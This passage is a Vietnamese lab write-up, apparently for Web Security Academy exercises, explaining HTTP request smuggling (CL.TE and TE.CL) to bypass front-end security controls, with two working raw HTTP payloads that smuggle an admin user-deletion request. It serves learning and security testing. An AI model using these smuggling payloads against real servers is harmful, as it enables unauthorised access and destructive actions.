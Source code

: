 Cũng như bài lab trên, thay vì `/404` để detect có thể tấn công, bây giờ ta sẽ GET đường dẫn `/admin/delete?username=carlos`

Biết rằng FE sử dụng CL header, còn BE sử dụng TE, ta tìm cách ghi ngoài chunk 1 GET data để nó được coi như 1 như 1 request ở lần yêu cầu tiếp theo

Payload:

```
POST / HTTP/1.1
Host: 0a9b00960398cf27c16ef3e200d100f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 159
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
```

**Kết quả:**

>![](https://i.imgur.com/uWSvJq1.png)


<hr>

### Bài 7: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

>![](https://i.imgur.com/b4zAN8U.png)

Chỉ là ngược lại của bài trên.

Payload:

```
POST / HTTP/1.1
Host: 0a1c004904ac3134c334103f00120015.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

8a
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

Foo=x
0


```
